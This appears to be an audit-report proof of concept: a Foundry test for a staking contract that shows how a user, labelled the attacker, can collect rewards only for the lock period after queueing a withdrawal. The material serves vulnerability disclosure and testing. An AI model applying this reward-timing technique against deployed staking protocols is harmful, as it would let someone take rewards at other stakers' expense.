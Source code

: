 ## PoC:
Add this function to `StakingManager.t.sol` and run it with this command: `forge test --mt test_ExchangeRatio_WithStakeAndRewards -vvv`. To visualize how the Attacker (user) can claim rewards only for the lock period after `queueWithdrawal` and how the total rewards affect the user's individual rewards.
```solidity
function test_ExchangeRatio_WithStakeAndRewards() public {

        uint256 amount = 1 ether;

        // Setup validator and delegation
        vm.startPrank(manager);
        validatorManager.activateValidator(validator);
        validatorManager.setDelegation(address(stakingManager), validator);
        vm.stopPrank();

        // Setup initial stake
        vm.deal(user, amount);
        vm.prank(user);
        stakingManager.stake{value: amount}();


        // Simulate reward injection
        address testValidator = makeAddr("testValidator");
        vm.startPrank(admin);
        validatorManager.grantRole(validatorManager.MANAGER_ROLE(), admin);
        validatorManager.activateValidator(testValidator);
        vm.stopPrank();

        // Simulate a reward event
        vm.prank(address(oracleManager));
        validatorManager.reportRewardEvent(testValidator, 1e16);

        uint256 initialKHypeBalance = kHYPE.balanceOf(user);

        vm.prank(user);
        kHYPE.approve(address(stakingManager), amount);

        // Queue withdrawal
        vm.prank(user);
        stakingManager.queueWithdrawal(amount);

        // Verify withdrawal request
        StakingManager.WithdrawalRequest memory request = stakingManager.withdrawalRequests(user, 0);

        uint256 finalKHypeBalance = kHYPE.balanceOf(user);
        
        console.log("request.kHYPEAmount", request.kHYPEAmount);
        console.log("request.hypeAmount", request.hypeAmount);
    }
```

